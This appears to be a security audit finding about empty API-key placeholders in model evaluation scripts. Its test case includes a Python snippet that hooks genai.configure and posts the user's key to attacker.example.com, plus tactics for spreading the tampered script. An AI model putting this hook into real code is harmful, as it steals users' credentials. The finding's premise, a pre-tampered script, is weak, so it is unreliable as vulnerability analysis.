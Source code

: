 - Vulnerability Name: Hardcoded API Key Placeholder
- Description:
    - The evaluation scripts for closed-source models, such as Gemini and GPT models, contain a hardcoded placeholder for API keys.
    - Specifically, lines like `genai.configure(api_key="")` in Gemini scripts and similar configurations for OpenAI and Claude models are present in the evaluation scripts.
    - Users are instructed to manually replace the empty string `""` with their actual API keys to run the evaluation scripts.
    - An attacker could modify these scripts and replace the placeholder with malicious code that, after a user inputs their API key, exfiltrates the key to a remote server controlled by the attacker.
    - When a user, tricked into using the compromised script, runs it, their API key will be exposed to the attacker.
- Impact:
    - Compromise of user's API keys for services like Google Gemini, OpenAI GPT, or Anthropic Claude.
    - Unauthorized access to and usage of the cloud services associated with the compromised API keys, potentially leading to financial charges for the victim.
    - Data breaches or misuse of the services under the compromised account, depending on the scope of access granted by the API key.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - None. The code encourages users to directly edit the script and hardcode their API keys, although as placeholders.
    - The README.md provides instructions on how to run the evaluation scripts and mentions the need to fill in the API keys, but it does not warn users against security risks of hardcoding API keys directly in the scripts or offer secure alternatives.
- Missing Mitigations:
    - Removal of hardcoded API key placeholders from the evaluation scripts.
    - Implementation of secure API key management practices, such as utilizing environment variables or dedicated configuration files to store and access API keys.
    - Inclusion of clear warnings in the README and other relevant documentation about the security risks associated with hardcoding API keys directly in scripts.
    - Provision of secure and recommended methods for users to manage their API keys when using the evaluation scripts, such as using environment variables and `.env` files, or configuration files that are not part of the committed repository.
- Preconditions:
    - The user must intend to evaluate closed-source models (Gemini, GPT, Claude) using the provided evaluation scripts.
    - The user must possess a valid API key for the respective closed-source model service (Google Gemini API key, OpenAI API key, Anthropic API key).
    - The user must be socially engineered or unknowingly use a compromised version of the evaluation scripts where the API key placeholder has been replaced with malicious code.
- Source Code Analysis:
    - In files like `/code/evals/test-c/closed_models/gemini_cot_qa_test-c_evaluation_image+caption.py`, `/code/evals/test-c/closed_models/gemini_qa_test-c_evaluation_caption_only.py`, `/code/evals/test-c/closed_models/gpt4v_cot_qa_test-c_evaluation_image+caption.py`, and many other similar scripts located in `/code/evals/*/closed_models/`:
        - The line `genai.configure(api_key="")` (for Gemini models) or similar API configuration lines for other closed-source models are present.
        - This line shows a hardcoded empty string `""` as a placeholder for the `api_key` argument.
        - Users are expected to manually modify these scripts to replace `""` with their actual API keys.
        - Attackers can modify these scripts to intercept the API key right after the user pastes it into the script, before or during the execution of the evaluation process.
- Security Test Case:
    1. **Setup:**
        - Assume an attacker has basic knowledge of Python and API interactions.
        - Assume the attacker has access to modify and redistribute the evaluation script `evals/test-c/closed_models/gemini_cot_qa_test-c_evaluation_image+caption.py`.
        - Assume a victim user intends to use this script for evaluating Gemini models and has a valid Gemini API key.
    2. **Attacker's Modification:**
        - The attacker modifies the script `evals/test-c/closed_models/gemini_cot_qa_test-c_evaluation_image+caption.py`.
        - The attacker replaces the line `genai.configure(api_key="")` with the following malicious code snippet:
        ```python
        import requests
        import google.generativeai as genai

        api_key_to_exfiltrate = ""
        attacker_endpoint = "https://attacker.example.com/api_key_receiver" # Replace with attacker's server

        def configure_api_and_exfiltrate(api_key):
            global api_key_to_exfiltrate
            api_key_to_exfiltrate = api_key
            genai.configure(api_key=api_key)
            try:
                requests.post(attacker_endpoint, data={'api_key': api_key_to_exfiltrate}, timeout=5) # Send API key to attacker's server
                print("API Key exfiltrated in background.") # Optional: To notify attacker action, can be removed for stealth
            except requests.exceptions.RequestException as e:
                print(f"Warning: API key exfiltration failed but evaluation will proceed. Error: {e}") # Non-blocking exfiltration

        genai.configure = configure_api_and_exfiltrate
        ```
        - The attacker sets `attacker_endpoint` to a server they control to receive exfiltrated API keys.
    3. **Distribution of Compromised Script:**
        - The attacker distributes the modified script to potential victims. This could be done by:
            - Hosting the modified script on a fake website that looks like the original repository.
            - Sharing the script through social engineering tactics, posing as a legitimate source.
            - Contributing the malicious script to the project if possible, hoping maintainers won't notice immediately.
    4. **Victim User Action:**
        - A victim user, intending to evaluate Gemini CoT QA on test-C, downloads and uses the compromised script `gemini_cot_qa_test-c_evaluation_image+caption.py`.
        - Following the project's instructions (e.g., from README.md), the user opens the script in a text editor.
        - The user locates the line where API key needs to be inserted, which now contains the malicious code.
        - The user, unknowingly, proceeds to enter their valid Gemini API key as instructed, effectively providing the key to the malicious function.
    5. **Execution and Exfiltration:**
        - The user executes the modified script: `python gemini_cot_qa_test-c_evaluation_image+caption.py --response_root <path_to_save_responses> --image_resolution -1 --model_id gemini-1.5-pro`.
        - When the script runs, the `configure_api_and_exfiltrate` function is called.
        - This function first configures the Gemini API for the script's legitimate evaluation purpose.
        - Then, in the background, it attempts to send the API key to `attacker.example.com/api_key_receiver` via an HTTP POST request.
        - The script proceeds with the evaluation task, potentially without the user noticing the background exfiltration (or with a non-blocking warning in case of exfiltration failure, depending on attacker's modification).
    6. **Attacker Receives API Key:**
        - The attacker's server at `attacker.example.com` receives the POST request containing the victim's Gemini API key.
        - The attacker now has the compromised API key and can use it for unauthorized access to the Gemini API service.
    7. **Verification:**
        - Check attacker's server logs to confirm successful receipt of the API key from the victim.
        - (Optional) Monitor the victim's Gemini API usage for unauthorized activities after the test execution.

This test case demonstrates how an attacker can exploit the hardcoded API key placeholder vulnerability to steal API keys from users who are tricked into using a modified evaluation script.